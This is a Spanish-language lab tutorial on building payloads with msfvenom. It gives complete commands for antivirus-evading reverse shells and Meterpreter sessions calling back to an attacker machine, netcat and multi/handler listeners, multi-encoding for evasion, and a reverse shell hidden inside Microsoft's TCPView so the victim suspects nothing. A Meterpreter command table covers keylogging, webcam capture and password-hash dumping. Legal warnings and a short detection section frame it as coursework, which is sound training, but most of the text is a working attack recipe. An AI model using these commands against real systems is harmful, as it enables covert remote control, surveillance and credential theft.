







# 💣 Creación de Payloads con Msfvenom

## 📖 ENUNCIADO (DESCRIPCIÓN)

En esta práctica aprenderemos a utilizar **Msfvenom**, la herramienta de Metasploit Framework para la generación de payloads ofuscados que permiten ejecutar código en sistemas objetivo.

> [!warning] ⚠️ ADVERTENCIA LEGAL
>        Esta práctica SOLO debe realizarse en entornos controlados de laboratorio con fines educativos. Crear y ejecutar malware en sistemas sin autorización explícita es ILEGAL y puede conllevar consecuencias penales graves.
>         Solo en tu laboratorio. Solo con tus máquinas virtuales.

## 📚 CONCEPTOS PREVIOS

### 🔧 ¿Qué es Msfvenom?

**Msfvenom** surge de la fusión entre dos herramientas anteriores de Metasploit:

#### 📦 Herramientas Originales

**Msfpayload:**

* Generaba código ejecutable (payload)

* Se ejecuta en la máquina víctima

* Permite acceso sin explotar vulnerabilidades

**Msfencode:**

* Codificaba (ofuscaba) el código

* Objetivo: evitar detección por antivirus

* Transformaba el payload en algo menos reconocible

### 🎯 ¿Para qué se usa Msfvenom?

* ✅ Pentesting autorizado: Probar defensas de una organización

* ✅ Red Team: Simular ataques reales

* ✅ Educación: Aprender técnicas de evasión de antivirus

* ✅ Análisis de malware: Entender cómo funcionan los payloads

### 📋 Componentes de un Payload

| Componente | Descripción | Ejemplo |
| --- | --- | --- |
| Payload | Código que se ejecuta en la víctima | `windows/shell_reverse_tcp` |
| Encoder | Ofusca el payload para evitar detección | `x86/shikata_ga_nai` |
| Formato | Tipo de archivo de salida | `exe`, `elf`, `apk` |
| Arquitectura | Procesador objetivo | `x86`, `x64` |
| Plataforma | Sistema operativo | `Windows`, `Linux`, `Android` |

## 🖥️ Configuración del Entorno

### 📋 Requisitos

* 🐉 Máquina virtual con Kali Linux (atacante) - IP: 10.0.0.6

* 💻 Máquina virtual con Windows 7/10 (víctima)

* 🌐 Ambas máquinas en la misma red

> [!warning] 📝 Importante:  En esta práctica usaremos la IP  10.0.0.6  para Kali. Ajusta según tu entorno.

## 🚀 Prueba de Concepto (PoC)

## 🧮 Ejercicio 1: Ejecutar la Calculadora de Windows

Vamos a empezar generando algo inofensivo: un payload que simplemente abra la calculadora de Windows.

### 🔧 Paso 1: Generar el Payload

#### 🐉 En Kali Linux:

```bash
msfvenom -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f exe -o ourcalc.exe
```

#### 📋 Explicación de Parámetros:

* `-p windows/exec` → Payload que ejecuta un comando en Windows

* `cmd=calc.exe` → Comando a ejecutar (calculadora)

* `-e x86/alpha_mixed` → Encoder alfanumérico mixto

* `-f exe` → Formato de salida: ejecutable de Windows

* `-o ourcalc.exe` → Nombre del archivo de salida

### 📤 Paso 2: Transferir el Archivo a Windows

Copia el archivo `ourcalc.exe` a la máquina Windows mediante:

* 📁 Carpeta compartida de VirtualBox

* 🌐 Servidor HTTP simple: `python3 -m http.server 8000`

* 📧 Email (solo en laboratorio)

* 💾 Pendrive (arrastrando el archivo)

### ▶️ Paso 3: Ejecutar en Windows

#### 💻 En Windows 7:

Haz doble clic en `ourcalc.exe`

**Resultado esperado:** Se abrirá la calculadora de Windows.

> [!warning] 🎯 Observación:  Este payload es completamente inofensivo y solo sirve para demostrar que el código se ejecuta correctamente en la víctima.

## 🔄 Ejercicio 2: Reverse Shell Ofuscado

Ahora vamos a crear un payload más avanzado: una **reverse shell** que permita ejecutar comandos remotamente.

### 🎯 ¿Qué es una Reverse Shell?

#### 💡 Concepto:

* La víctima inicia la conexión hacia el atacante

* El atacante recibe una shell (terminal) de la víctima

* Permite ejecutar comandos remotamente

* Bypasea firewalls (conexión saliente permitida)

### 🔧 Paso 1: Generar el Payload

El comando lo vamos a dividir en dos partes para mayor claridad.

**Primera parte - Generar el payload:**

#### 🐉 En Kali Linux:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp \
lhost=10.0.0.6 lport=443 -e x86/shikata_ga_nai -i 3 -f exe -o revshell.exe
```

#### 📋 Explicación de Parámetros:

**Primera parte (payload):**

* `-a x86` → Arquitectura de 32 bits

* `--platform Windows` → Sistema operativo objetivo

* `-p windows/shell_reverse_tcp` → Payload de reverse shell TCP

* `lhost=10.0.0.6` → IP de Kali (donde espera la conexión)

* `lport=443` → Puerto de Kali a la escucha

**Segunda parte (codificación):**

* `-e x86/shikata_ga_nai` → Encoder famoso (polimórfico)

* `-i 3` → Iterar 3 veces la codificación

* `-f exe` → Formato ejecutable de Windows

* `-o revshell.exe` → Archivo de salida

> [!warning] 🔑 ¿Qué es shikata_ga_nai?
>        Es un encoder polimórfico que genera código diferente en cada ejecución. El nombre significa "no se puede evitar" en japonés. Es uno de los más efectivos para evadir antivirus.

### 📋 Ver Lista de Encoders Disponibles

```bash
msfvenom -l encoders
```



### 🎧 Paso 2: Poner Kali a la Escucha

#### 🐉 En Kali Linux:

```bash
nc -lvnp 443
```

#### 📋 Explicación:

* `nc` → Netcat (herramienta de red)

* `-l` → Listen (escuchar)

* `-v` → Verbose (mostrar detalles)

* `-n` → No resolver DNS

* `-p 443` → Puerto 443

Netcat quedará esperando conexiones. **NO cierres esta terminal.**

### ▶️ Paso 3: Ejecutar en la Víctima

#### 💻 En Windows 7:

Transfiere `revshell.exe` y ejecútalo

### ✅ Resultado Esperado

En el terminal de Kali donde ejecutaste `nc` verás:

```bash
Connection from 10.0.0.12:49152
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\Usuario>
```

¡Tienes acceso a la línea de comandos de Windows!

Puedes ejecutar comandos como:

```cmd
whoami
ipconfig
dir
systeminfo
```

## 🎭 Ejercicio 3: Reverse Shell con Meterpreter

Ahora vamos a crear un payload más potente usando **Meterpreter**, una shell avanzada de Metasploit.

### 🎯 ¿Qué es Meterpreter?

#### 💡 Ventajas de Meterpreter:

* ✅ Se ejecuta completamente en memoria (sin archivos en disco)

* ✅ Comandos avanzados (screenshot, keylogger, webcam, etc.)

* ✅ Migración de procesos

* ✅ Persistencia

* ✅ Pivoting (usar la víctima para atacar otras máquinas)

### 🔧 Paso 1: Generar el Payload Meterpreter

#### 🐉 En Kali Linux:

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
lhost=10.0.0.6 lport=445 -e x86/shikata_ga_nai -b '\x00' -i 3 \
-f exe -o meterpreter.exe
```

#### 📋 Nuevo parámetro:

* `-p windows/meterpreter/reverse_tcp` → Payload Meterpreter

* `lport=445` → Puerto 445 (SMB, menos sospechoso)

* `-b '\x00'` → Bad chars (evitar byte nulo)

### 🎧 Paso 2: Configurar el Listener en Metasploit

Para recibir una sesión Meterpreter necesitas usar Metasploit Framework, no Netcat.

#### 🐉 En Kali Linux:

```bash
msfconsole
```

Espera a que cargue Metasploit Framework.



### 📡 Paso 3: Cargar el Exploit Handler

Carga el módulo `exploit/multi/handler`:

```bash
use exploit/multi/handler
```



### ⚙️ Paso 4: Configurar el Payload

Carga el payload Meterpreter:

```bash
set payload windows/meterpreter/reverse_tcp
```

### 🔧 Paso 5: Configurar LHOST y LPORT

```bash
set LHOST 10.0.0.6
set LPORT 445
show options
```



Verifica que `LHOST` y `LPORT` coincidan con los del payload generado.

### 🚀 Paso 6: Lanzar el Exploit

```bash
exploit
```

O también:

```bash
run
```



Metasploit quedará esperando la conexión.

### ▶️ Paso 7: Ejecutar en la Víctima

#### 💻 En Windows 7:

Ejecuta `meterpreter.exe`

### ✅ Resultado Esperado

En Metasploit verás:



```bash
[*] Sending stage (175174 bytes) to 10.0.0.12
[*] Meterpreter session 1 opened (10.0.0.6:445 -> 10.0.0.12:49153)

meterpreter >
```

¡Tienes una sesión Meterpreter activa!

### 🎮 Comandos Útiles de Meterpreter

| Comando | Descripción |
| --- | --- |
| `sysinfo` | Información del sistema |
| `getuid` | Usuario actual |
| `screenshot` | Captura de pantalla |
| `webcam_snap` | Foto de la webcam |
| `keyscan_start` | Iniciar keylogger |
| `keyscan_dump` | Ver teclas capturadas |
| `shell` | Obtener shell de Windows |
| `ps` | Listar procesos |
| `migrate PID` | Migrar a otro proceso |
| `hashdump` | Extraer hashes de contraseñas |

## 🔐 Ejercicio 4: Multicodificación de Payloads

Vamos a ver cómo **multicodificar** un payload para aumentar la probabilidad de evadir antivirus.

### 🎯 Concepto de Multicodificación

Consiste en aplicar múltiples encoders en cadena. El payload pasa por varios procesos de ofuscación.

### 🔧 Generar Payload Multicodificado

#### 🐉 En Kali Linux:

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -k \
-e x86/shikata_ga_nai -i 10 -f raw | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8 \
-f exe -o ourcalc_multi.exe
```

#### 📋 Explicación:

* Primera codificación: shikata_ga_nai con 10 iteraciones → salida en formato raw

* Pipe (|): Pasa la salida al siguiente msfvenom

* Segunda codificación: countdown con 8 iteraciones → salida en exe

* `-k` → Keep (mantener funcionalidad del template)

Este payload está doblemente ofuscado, lo que dificulta su detección.

## 🎭 Ejercicio 5: Payload Incrustado en Ejecutable Legítimo

Finalmente, vamos a intentar generar un ejecutable **introduciendo nuestro payload en un software legítimo**.

### 🎯 Concepto de Template Injection

Consiste en inyectar el payload dentro de un ejecutable legítimo. El programa sigue funcionando normalmente, pero también ejecuta nuestro payload en segundo plano.

### 📥 Paso 1: Descargar TCPView

Vamos a usar **TCPView** de Microsoft como plantilla.

[https://learn.microsoft.com/en-us/sysinternals/downloads/tcpview](https://learn.microsoft.com/en-us/sysinternals/downloads/tcpview)

Descárgalo y descomprímelo. Usaremos el archivo `tcpview.exe`.

### 🔧 Paso 2: Generar Payload con Template

Vamos a incluir un reverse shell como el del Ejercicio 2, pero incrustado en TCPView.

#### 🐉 En Kali Linux:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp \
lhost=10.0.0.6 lport=443 -x tcpview.exe -k \
-e x86/shikata_ga_nai -b '\x00' -i 10 -f exe -o tcp_revshell.exe
```



#### 📋 Nuevos parámetros:

* `-x tcpview.exe` → Template (ejecutable base)

* `-k` → Keep template behavior (mantener funcionalidad original)

### 🎧 Paso 3: Poner Kali a la Escucha

```bash
nc -lvnp 443
```

### ▶️ Paso 4: Ejecutar en la Víctima

#### 💻 En Windows 7:

Ejecuta `tcp_revshell.exe`

### ✅ Resultado Esperado

* ✅ TCPView se abre y funciona normalmente

* ✅ En segundo plano, se establece la reverse shell

* ✅ En Kali recibes la conexión

La víctima NO sospecha nada porque el programa funciona como siempre.

## 🛡️ Detección y Prevención

### 🔍 ¿Cómo detectar estos payloads?

| Método | Descripción | Efectividad |
| --- | --- | --- |
| Antivirus actualizado | Detección por firmas y heurística | ⚠️ Media (payloads ofuscados pueden evadirlo) |
| EDR/XDR | Análisis de comportamiento en tiempo real | ✅ Alta |
| Sandboxing | Ejecutar en entorno aislado antes de permitir | ✅ Alta |
| Firewall de salida | Bloquear conexiones salientes sospechosas | ✅ Alta (contra reverse shells) |
| Whitelist de aplicaciones | Solo permitir ejecutables autorizados | ✅ Muy Alta |
| Monitorización de red | Detectar tráfico anómalo (IDS/IPS) | ✅ Alta |

### 🔐 Medidas de Protección

* ✅ Mantener antivirus y sistema operativo actualizados

* ✅ No ejecutar archivos de origen desconocido

* ✅ Usar soluciones EDR en entornos corporativos

* ✅ Implementar segmentación de red

* ✅ Deshabilitar macros en documentos Office

* ✅ Usar User Account Control (UAC) en Windows

* ✅ Educar a los usuarios sobre ingeniería social

* ✅ Implementar políticas de least privilege

## 📚 Conclusiones

### 🎓 Lo que hemos aprendido:

* ✅ Msfvenom permite generar payloads personalizados

* ✅ La ofuscación dificulta la detección por antivirus

* ✅ Reverse shells permiten control remoto de sistemas

* ✅ Meterpreter ofrece capacidades avanzadas post-explotación

* ✅ Template injection hace payloads más sigilosos

* ✅ La defensa requiere múltiples capas de seguridad

### ⚠️ Responsabilidad Ética:

Este conocimiento debe usarse ÚNICAMENTE para:

* 🎓 Educación y formación en seguridad

* 🔐 Pentesting autorizado y legal

* 🛡️ Mejorar defensas propias

* 📖 Red Team en entornos controlados

**NUNCA para actividades ilegales. Crear y distribuir malware es un delito grave.**

## 📋 Tabla de Referencia Rápida

| Payload | Comando | Listener |
| --- | --- | --- |
| Calculadora | `msfvenom -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f exe -o calc.exe` | N/A |
| Reverse Shell | `msfvenom -p windows/shell_reverse_tcp lhost=IP lport=443 -e x86/shikata_ga_nai -i 3 -f exe -o shell.exe` | `nc -lvnp 443` |
| Meterpreter | `msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=445 -e x86/shikata_ga_nai -i 3 -f exe -o met.exe` | `msfconsole → use exploit/multi/handler` |
| Con Template | `msfvenom -p windows/shell_reverse_tcp lhost=IP lport=443 -x app.exe -k -e x86/shikata_ga_nai -i 10 -f exe -o trojan.exe` | `nc -lvnp 443` |
